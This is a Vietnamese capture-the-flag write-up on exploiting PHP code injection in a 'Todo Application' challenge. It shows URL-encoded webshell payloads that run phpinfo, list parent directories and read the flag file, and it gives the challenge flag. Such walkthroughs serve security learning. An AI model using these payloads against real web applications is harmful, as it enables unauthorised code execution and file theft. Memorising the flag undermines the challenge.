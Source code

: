 # Todo Application

Bài này cho chúng ta source code

![alt text](image.png)

Ta thử một payload bất kì và quan sát url 

![alt text](image-1.png)

Phân tích source code kết hợp với url sau khi tải lên pay load ta thấy rằng khi phương thức $_GET cho ta tải pay load lên với key là add và nội dung file sẽ được ghi vào biến $fileTodo

![alt text](image-2.png)

Phương thức $_GET với key là fileTodo cho phép hiển thị lên front end nội dung của biến $todo

![alt text](image-3.png)

Mình thử một webshell đơn giản là:
```
<?php
phpinfo();
?>
```
Tất nhiên là phải decode.
Sau khi decode đoạn code sẽ là:
```
%3C%3Fphp%0Aphpinfo%28%29%3B%0A%3F%3E
```
fileTodo ta sẽ đặt bất kì
Từ kết quả trả về ta thấy được rằng ta có thể tải nội dung webshell bằng php
Mình thử tải đoạn code này lên và lấy được các thư mục trong *../../../*
```
%3C%3Fphp%0A%24dir%20%3D%20%22..%2F..%2F..%2F%22%3B%0A%24a%20%3D%20scandir%28%24dir%29%3B%0Aprint_r%28%24a%29%3B%0A%3F%3E%0A
```
Đoạn code trên tương ứng với:
```
<?php
$dir = "../../../";
$a = scandir($dir);
print_r($a);
?>
```
sửa lại đoạn code trên để đọc flag:
```
<?php
$b =file_get_contents("../../../flagRqUGM.txt");
print_r($b);
?>
```
và ta đã lấy được flag:

*Flag: CHH{PHP_COdE_iNjECtioN_0bfa984f6e65e02301f8999b669a9cd9}*